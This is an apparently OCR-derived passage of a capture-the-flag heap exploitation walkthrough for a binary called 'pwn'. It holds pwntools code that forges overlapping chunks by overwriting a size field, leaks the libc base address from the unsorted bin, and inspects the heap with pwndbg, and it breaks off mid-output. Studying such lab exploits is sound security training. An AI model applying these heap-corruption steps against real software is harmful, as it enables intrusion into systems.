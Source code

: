 ```
add(0x10, '3' * 0x10)

delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
delete(2)
add(0xf0, 'x' * 0x10)
show()
libc.address = u64(p.recvuntil("\x7f")[-6:] + b'\0\0') - 0x3c4b78
print('libc @ {:#x}'.format(libc.address))
assert libc.address & 0xfff == 0
```
pause before show again, see the chunk to recover it
```python
pause()
show()
```
```gdb -q -p `pidof pwn` -ex "b *0x40099B" -ex "c"```
```
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all [corrupted]
FD: 0x1974120 ◂— 0x171
BK: 0x1974120 —▸ 0x7fd7c6ea0b78 (main_arena+88) ◂— 0x1974120
smallbins
empty
largebins
empty
pwndbg> x/4gx 0x1974120
0x1974120:	0x0000000000000100	0x0000000000000171
0x1974130:	0x00007fd7c6ea0b78	0x00007fd7c6ea0b78
```
recover
```python
add(0x160, '4' * 0x160)
```
then repeat the above, to confirm the index is 4
```python
add(0xf0, 'a' * 0xf0)
add(0x68, 'b' * 0x68)
add(0xf0, 'c' * 0xf0)
add(0x10, 'd' * 0x10)

pause()
delete(0)
```
```gdb -q -p `pidof pwn```
```
pwndbg> telescope 0x6020C0 20
00:0000│   0x6020c0 (itemlist) ◂— 0xf0
01:0008│   0x6020c8 (itemlist+8) —▸ 0x191c030 ◂— 'xxxxxxxxxxxxxxxx'
02:0010│   0x6020d0 (itemlist+16) ◂— 0x68 /* 'h' */
03:0018│   0x6020d8 (itemlist+24) —▸ 0x191c130 ◂— 0x3434343434343434 ('44444444')
04:0020│   0x6020e0 (itemlist+32) ◂— 0x160
05:0028│   0x6020e8 (itemlist+40) —▸ 0x191c130 ◂— 0x3434343434343434 ('44444444')
06:0030│   0x6020f0 (itemlist+48) ◂— 0x10
07:0038│   0x6020f8 (itemlist+56) —▸ 0x191c2a0 ◂— '3333333333333333'
08:0040│   0x602100 (itemlist+64) ◂— 0xf0